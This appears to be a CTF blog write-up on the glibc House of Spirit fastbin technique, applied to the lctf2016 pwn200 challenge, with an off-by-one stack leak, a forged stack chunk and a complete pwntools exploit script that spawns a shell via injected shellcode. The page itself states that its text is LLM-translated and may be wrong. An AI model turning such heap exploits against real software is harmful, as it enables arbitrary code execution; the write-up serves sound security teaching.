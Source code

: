 ```yaml
---
title: "PWN House_of_Spirit"
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


Take a look at `House_of_spirit`, which is a technique that relies on constructing `fake_chunk` on the stack to achieve `(almost) arbitrary write`. It depends on `fastbin`.

<!--truncate-->

# how2heap

Overall, it's relatively simple. The key points to note are the need for `16-byte alignment` and the requirement to construct `chunk_size` of `next_fake_chunk` to bypass checks.

![image-20220719220643524](https://oss.nova.gal/img/image-20220719220643524.png)

![image-20220719220923354](https://oss.nova.gal/img/image-20220719220923354.png)

# Practical Combat

## lctf2016_pwn200

![checksec](https://oss.nova.gal/img/image-20220719235857110.png)

No protections are enabled. Planning to go straight for `ret2shellcode`, but we don't have enough bytes for stack overflow.

![400A8E](https://oss.nova.gal/img/image-20220719235308594.png)

The first function `who are u?` has an `Off-by-One` vulnerability that leaks the contents pointed to by `400A8E` `rbp` (which is the `rbp` of the parent function).

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://oss.nova.gal/img/image-20220719235609346.png)

The function `read_input()` returns an `int`, and even though `400A8E` is not used, it should be stored at some location on the stack. Based on the assembly, it is located at `[rbp-0x38]`.

![rbp-0x38](https://oss.nova.gal/img/image-20220720000140408.png)

In `400A29`, it can be observed that `dest` is a pointer, `buf` has an overflow of `8` bytes, which can directly overwrite `dest`. Since `dest` will be stored in `ptr` for later `free` and `malloc` operations in the `menu`.

![400A29](https://oss.nova.gal/img/image-20220720000329530.png)

From this point, we can speculate that we can construct a `fake_chunk` in `buf` and manipulate the heap pointer to point to `buf`, creating a `chunk` on the stack. The challenge lies in the `check_out` function where we need to forge `fake_next_chunk_size` as required by `House_of_spirit`.

Calculations reveal that the previous `id` is located at our current `buf+0x68`. Therefore, we could create a `0x50`-sized `chunk` at this location and set the `id` to a value that satisfies `house_of_spirit`.

![fake_next_chunk_size](https://oss.nova.gal/img/image-20220720001354338.png)

As a result, when we execute `free(ptr)`, the address on the stack will be stored in `fastbin`. Subsequently, by `malloc(0x60)` again and writing the corresponding payload to modify the return address, we can obtain a shell.

By observing, we find that the only controllable `ret_addr` is at `ptr+0x40`. With the return address controllable, where should we jump to? Do you remember the `0x30` data we input at the beginning of `who_r_u`? We can write the shellcode there. Just calculate the offset.

![image-20220720002739429](https://oss.nova.gal/img/image-20220720002739429.png)

Complete EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

The bug that is quite puzzling (where `pwntools` cannot capture `Action`) was presented by LaughingMan. We'll discuss it later, have fun.

![image-20220720204517147](https://oss.nova.gal/img/image-20220720204517147.png)

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
